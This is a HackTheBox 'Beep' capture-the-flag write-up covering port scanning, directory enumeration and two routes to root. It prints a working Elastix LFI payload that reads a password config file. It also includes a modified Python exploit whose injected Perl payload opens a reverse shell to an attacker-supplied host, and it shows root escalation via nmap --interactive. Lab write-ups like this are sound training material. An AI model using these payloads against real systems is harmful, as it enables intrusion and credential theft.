HackTheBox - Beep Writeup
Table of Contents
Nmap
As always. I’m gonna run the Nmap scan against this IP address 10.10.10.7. Here is the result of the scan
the result
# Nmap 7.92 scan initiated Sun Jan 16 05:37:13 2022 as: nmap -sC -sV -p- -oN nmap/beep_all 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.056s latency).
Not shown: 65519 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING TOP APOP LOGIN-DELAY(0) EXPIRE(NEVER) UIDL USER STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE RESP-CODES
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 875/udp status
|_ 100024 1 878/tcp status
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: RENAME OK THREAD=REFERENCES IMAP4rev1 SORT=MODSEQ ID X-NETSCAPE LIST-SUBSCRIBED ACL NAMESPACE CATENATE LISTEXT RIGHTS=kxte SORT NO QUOTA IDLE CONDSTORE IMAP4 ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY ATOMIC URLAUTHA0001 CHILDREN UNSELECT Completed UIDPLUS MULTIAPPEND LITERAL+ MAILBOX-REFERRALS STARTTLS
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
443/tcp open ssl/http Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2022-01-15T22:41:00+00:00; +1h00m01s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after: 2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Elastix - Login page
878/tcp open status 1 (RPC #100024)
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3 Cyrus pop3d
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp open mysql MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp open sieve Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp open upnotifyp?
4559/tcp open hylafax HylaFAX 4.3.10
5038/tcp open asterisk Asterisk Call Manager 1.1
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts: beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
Host script results:
|_clock-skew: 1h00m00s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 16 05:42:46 2022 -- 1 IP address (1 host up) scanned in 332.87 seconds
that’s bunch of the open ports on this machine.
Webserver
This machine has apache running on port 80. When I visited the page it was redirected into port 443 which is the Elastix login page.
Gobuster
Well, I’m gonna run the gobuster on this webserver. Try to find any hidden directory on it. I’m gonna use the PHP as -x extension because this server running on PHP.

/admin
The /admin really does sound good to me. When I visited the admin page. It’s prompt me with login forms.

I try a bunch of passwords such as admin:admin but it doesn’t work. However, when I clicked the cancel button. It goes to this page https://10.10.10.7/admin/config.php and displays the Unauthorized message.

Local File Inclusion/LFI
This box has an LFI tag on it. I know it sounds not fair at all but information matters.
So, I’m run the searchsploit and found this.

I’m gonna mirror/copy this exploit in my current directory with -m flag. Here is the exploit/PoC :
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
it’s basically, using current_language as the parameter. This PoC already includes the config file on it. I’m gonna copy/paste this in my browser and VOILA!

I managed to grab a bunch of passwords that appear in this file but a lot of passwords seem to be commented out.
Just one password does not get commented out and appears more often in here.
Method: 1
SSH
The Nmap scan result shows us port 22 is open. Well, I’ve got the potential password and don’t know what users it belongs to. So, I’m gonna try my luck to go with the root user
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
If you get one of these errors just like me. You need to run an ssh command like this
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
source - Solution for SSH unable to Negotiate Errors

Finally, I login in as root through SSH. Let’s get the user and root flags.
the flag

Method: 2
RCE
The last exploit I’m using was LFI 'graph.php' and the version of Elastix was 2.2.0 and this RCE have the same version of Elastix.

As always, I’m gonna mirror/copy this exploit into my current working directory with the -m flag. When I ran the exploit it shows a bunch of errors regard to SSL. I tried fixing the error by changing the python code and it was painful but I managed to fix it. Here is the code:
18650.py3
#!/usr/bin/python3
import ssl, urllib3
rhost = "10.10.10.7"
lhost = input("lhost>: ")
lport = input("lport>: ")
ext = input("ext>: ")
head = f"https://{rhost}/recordings/misc/callme_page.php?action=c&callmenum={ext}@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20"
payload = f"perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{lhost}%3a{lport}%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'"
url = head + payload
# SSL Handler
urllib3.disable_warnings()
http = urllib3.PoolManager(cert_reqs="CERT_NONE")
# Execute
print("ExPl0itInG...")
http.request("GET", url)
svwar/SIPVicious
I ran the exploit one more time and it doesn’t work. I’m speechless and I saw the extension in the original script that set the value into 1000 and maybe this is not a valid extension. So, I’m gonna run the svwar/SIPVicious tool to identify a working extension.
I’m gonna run this command:
svwar -m INVITE -e100-400 10.10.10.7

Shell as Asterisk
Now, let’s run the exploit again and make sure to set up the Netcat listener first.

YES! it worked. Based on the comment in the original exploit, I can be a root user by using nmap --interactive. Let’s do it.

TADAA!! Now, I’m a root user.